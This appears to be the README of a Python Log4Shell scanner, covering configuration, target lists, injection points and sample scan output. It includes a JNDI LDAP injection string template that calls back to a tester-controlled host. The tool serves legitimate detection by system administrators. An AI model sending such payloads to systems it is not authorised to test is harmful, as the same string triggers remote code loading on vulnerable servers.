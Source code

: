 
log4shell scanner written in Python

## 1 Intro

### 1.1 General
- the purpose of this script is to scan multiple servers for the log4shell vulnerability
- it allows set custom payloads and injection points via its ```config.cfg``` file
- the file ```targets.txt``` needs to contain the systems you want to test
  
### 1.2 IMPORTANT
- the script just tests if the vulnerability exists, but does not exploit it!
- the script is meant to be used by sysadmins to check if their systems are vulnerable or not
- you are not allowed to use this script against systems where the owner did not allow you to do so! 

---

## 2 Requirements
```shell
$ pip3 install -r requirements.txt
```

---

## 3 Usage
### 3.1 Customize ```config.cfg``` file
#### 3.1.1 Mandatory
- change ```back_connect_IP=127.0.0.1``` to the IP of your testing machine
- change ```back_connect_PORT=8080``` to a value of your desire
#### 3.1.2 Optional
- if you want to add a test injection string just add a line like this ```INJ_STRING:${jndi:ldap://<IP>:<PORT>/<RND>}```
- ```<IP>``` is the placeholder where the ```yal4ass.py``` inserts your ```back_connect_IP``` when testing your targets
- ```<PORT>``` is the placeholder where the ```yal4ass.py``` inserts your ```back_connect_PORT``` when testing your targets
- ```<RND>``` is the placeholder where the ```yal4ass.py``` inserts a random value when testing your targets
- if you want to add a test injection point for a http header just adda line like this ```INJ_POINT:HEADER:User-Agent```
- if you want to add a test injection point for a specific get parameter just adda line like this 
  ```INJ_POINT:GET:hackme```
- if you want to comment out an injection string, or an injection point just add a ```#``` in front of the line
  
### 3.2 Adding targets to ```targets.txt```
- just add one target/service per line
- format: ```[http|https]://[TARGET_IP]:[TARGET_PORT]```
- example: ```http://192.168.1.100:8080```

### 3.3 Starting the script
```shell
$ python3 yal4ass.py -h

Yet another log4shell testing script.

optional arguments:
  -h, --help            show this help message and exit
  -d DELAY, --delay DELAY
                        Delay between every request in ms.
```
start without any parameters for plain testing
```shell
$ python3 yal4ass.py
```
start with a specific delay (ms) 
```shell
$ python3 yal4ass.py -d 500
```
example output
```bash
$ python3 yal4ass.py
[+] Started back connect server on 192.168.2.31:8080

[*] testing http://192.168.2.121:8001
sending requests to http://192.168.2.121:8001 |████████████████████████████████████████| 13/13 [100%] in 6.9s (1.89/s)

[*] testing http://192.168.2.121:8080
on 0: 	[+]192.168.2.121:b'JRMI\x00\x02K'
on 0: 	[+]192.168.2.121:b'JRMI\x00\x02K'
on 0: 	[+]192.168.2.121:b'JRMI\x00\x02K'
on 0: 	[+]192.168.2.121:b'JRMI\x00\x02K'
on 0: 	[+]192.168.2.121:b'JRMI\x00\x02K'
on 0: 	[+]192.168.2.121:b'JRMI\x00\x02K'
on 0: 	[+]192.168.2.121:b'JRMI\x00\x02K'
on 0: 	[+]192.168.2.121:b'JRMI\x00\x02K'
on 0: 	[+]192.168.2.121:b'JRMI\x00\x02K'
on 0: 	[+]192.168.2.121:b'JRMI\x00\x02K'
on 0: 	[+]192.168.2.121:b'JRMI\x00\x02K'
on 0: 	[+]192.168.2.121:b'JRMI\x00\x02K'
on 0: 	[+]192.168.2.121:b'JRMI\x00\x02K'
on 0: 	[+]192.168.2.121:b'JRMI\x00\x02K'
on 0: 	[+]192.168.2.121:b'JRMI\x00\x02K'
on 0: 	[+]192.168.2.121:b'JRMI\x00\x02K'
on 7: 	[+]192.168.2.121:b'JRMI\x00\x02K'
on 7: 	[+]192.168.2.121:b'JRMI\x00\x02K'
on 7: 	[+]192.168.2.121:b'JRMI\x00\x02K'
on 7: 	[+]192.168.2.121:b'JRMI\x00\x02K'
on 8: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
on 8: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
on 10: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
on 10: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
on 10: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
on 10: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
on 12: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
on 12: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
on 12: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
on 12: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
on 12: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
on 12: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
on 12: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
on 12: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
on 12: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
on 12: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
on 12: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
on 12: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
on 12: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
on 12: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
on 12: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
on 12: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
on 12: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
on 12: 	[+]192.168.2.121:b'0\x0c\x02\x01\x01`\x07\x02\x01\x03\x04\x00\x80\x00'
sending requests to http://192.168.2.121:8080 |████████████████████████████████████████| 13/13 [100%] in 7.0s (1.85/s)

[*] All targets tested.
[*] The following targets seem to be vulnerable
	[+] 192.168.2.121

[*] Press CTRL+c to stop the script
```
